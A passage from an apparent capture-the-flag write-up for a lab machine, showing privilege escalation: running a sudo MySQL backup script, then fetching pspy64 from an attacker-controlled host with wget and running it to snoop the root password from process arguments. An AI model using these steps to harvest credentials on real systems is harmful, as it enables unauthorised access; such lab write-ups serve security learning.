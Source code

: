 
Lets try it:

```
joshua@codify:/opt/scripts$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root: 
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```

Cool, that worked, but unfortunately we don't have access to the backup created in `/var/backups/mysql`

```
joshua@codify:/opt/scripts$ ls /var/backups/mysql
joshua@codify:/opt/scripts$ ls -la /var/backups/mysql
ls: cannot access '/var/backups/mysql/.': Permission denied
```

Lets establish another shell as joshua via SSH, load pspy, and see if we can spy on this process as its executed.

First we'll transfer pspy64 and make it executable:

```
joshua@codify:/tmp$ wget 10.10.14.136/pspy64
--2024-07-08 16:08:40--  http://10.10.14.136/pspy64
Connecting to 10.10.14.136:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                          100%[====================================================>]   2.96M  2.63MB/s    in 1.1s    

2024-07-08 16:08:41 (2.63 MB/s) - ‘pspy64’ saved [3104768/3104768]

joshua@codify:/tmp$ chmod +x pspy64 
joshua@codify:/tmp$ ./pspy64 
```

Once pspy is running we can execute the script again, and capture the root password in pspy:
